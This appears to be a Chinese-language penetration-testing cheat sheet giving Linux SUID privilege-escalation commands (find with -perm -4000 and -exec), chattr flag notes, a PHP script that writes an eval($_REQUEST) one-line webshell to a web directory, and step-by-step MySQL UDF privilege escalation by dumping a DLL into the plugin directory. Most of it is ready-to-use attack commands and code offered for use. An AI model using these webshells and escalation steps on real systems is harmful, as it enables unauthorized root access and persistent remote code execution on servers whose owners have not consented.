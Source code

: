    ```<?php echo `whoami`;?>```
**nmap, find, vim, bash, more, less, nano, cp, awk, mv**

1、查找那些命令有 suid

```shell
find / -user root -perm -4000 -print 2>/dev/null
```

2、发现 find 命令有 suid，可以提权

```shell
find <filename> -exec whoami \; # 回显root
chattr -i <filename> # 修改文件为可修改
```

```
a：让文件或目录仅供附加用途。
b：不更新文件或目录的最后存取时间。
c：将文件或目录压缩后存放。
d：将文件或目录排除在倾倒操作之外。
i：不得任意更动文件或目录。
s：保密性删除文件或目录。
S：即时更新文件或目录。
u：预防意外删除。
```

#### 3.1. 一句话木马

使用 fputs() 写入木马到指定路径

```php
<?php
$path="C:/xampp/htdocs/dashboard/output.php";
$content='<?php eval($_REQUEST["a"]);?>';
$fp=fopen($path,"w");
fputs($fp, $content);
fclose($fp);
?>
```

#### 3.2. getshell

1. 利用 3306 端口，获取 mysql 用户名密码
2. 查询系统位数，32/64
   show variables like '%compile%';
3. 利用 mysql-udf 提权 用户自定义函数
   建立一张表，将 dll16 进制文件临时存放到表中。使用 mysql < \*.sql 或使用数据库连接工具。
4. 查询是否有导出权限
   show global variables like 'secure%';
5. 导出位置
   select version();
   mysql<5.0 任意
   5.0<=mysql<5.1 放在系统目录
   mysql>=5.1 lib/plugin
6. 导出到指定位置
   show variables like 'plugin%';
   SELECT udf FROM temp_udf INTO DUMPFILE "plugin_dir";
